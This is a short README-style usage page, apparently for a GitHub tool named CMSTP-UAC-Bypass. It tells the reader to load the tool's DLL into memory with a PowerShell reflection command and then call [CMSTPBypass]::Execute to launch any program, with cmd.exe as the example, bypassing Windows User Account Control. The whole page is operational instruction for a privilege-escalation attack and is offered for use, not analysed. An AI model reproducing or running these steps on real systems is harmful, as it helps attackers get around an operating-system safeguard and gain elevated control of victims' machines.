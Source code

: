 # Execute Methods:

1. Open PowerShell
2. Execute this command "[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))"
3. Execute any command you want 

Example: [CMSTPBypass]::Execute("C:\Windows\System32\cmd.exe")